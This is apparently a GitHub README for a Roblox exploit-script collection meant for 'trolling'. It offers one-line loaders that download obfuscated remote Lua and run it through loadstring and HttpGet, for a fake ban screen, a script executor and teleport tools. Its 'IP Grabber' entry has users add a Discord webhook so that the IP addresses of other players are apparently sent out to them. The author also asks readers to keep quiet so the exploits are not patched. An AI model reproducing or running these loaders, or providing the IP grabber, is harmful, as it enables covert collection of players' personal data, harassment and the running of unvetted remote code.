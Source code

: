 # About
I'll be posting my scripts and if I put someone elses into this repository that means it's either my friends script or a revamp of their script and I'll be adding the information into the readme.

The scripts will be put into sections. The scripts I put into here are meant for pranking in irl and trolling.
Don't go around talking about this before they get patched 💀 No one want's scripts to get patched ;)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Fake Ban [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)


# Position Finder [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts (If you don't know, the script I'm showing you is the revamp.)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

# Script Executor [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

![script (2)](https://github.com/wtfplayer/redemption/assets/136761546/f18a5942-9f39-4ab2-beec-a92bb7aefb12)

# Ip Grabber [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua) (Outdated)
**Make sure to put your discord webhook in between** ''

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)

![ipgrab](https://github.com/wtfplayer/redemption/assets/136761546/ba8c6f22-5a4e-4521-b86a-46561bb7de92)


**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
